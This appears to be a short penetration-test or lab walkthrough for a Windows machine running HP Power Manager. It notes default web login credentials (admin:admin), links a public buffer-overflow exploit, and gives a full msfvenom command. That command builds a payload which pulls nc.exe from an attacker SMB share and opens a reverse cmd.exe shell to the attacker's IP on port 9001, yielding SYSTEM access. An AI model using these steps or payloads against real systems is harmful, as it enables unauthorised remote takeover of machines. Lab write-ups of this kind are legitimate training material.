 #### ++ INFO ++
-> For the payload we used smbserver (impacket) and get a shell with nc.exe. Payload:
	`msfvenom -p windows/exec CMD="cmd.exe /C \\\\192.168.45.169\\share\\nc.exe -e cmd.exe 192.168.45.169 9001" EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python`

#### ++ CREDENTIALS ++
	admin:admin (login in webapp)
	
#### ++ Buffer Overflow vuln in webapp ++
	https://raw.githubusercontent.com/Muhammd/HP-Power-Manager/master/hpm_exploit.py
	Changing the payload we get a shell as nt authority

#### ++ Priv Esc ++
	No needed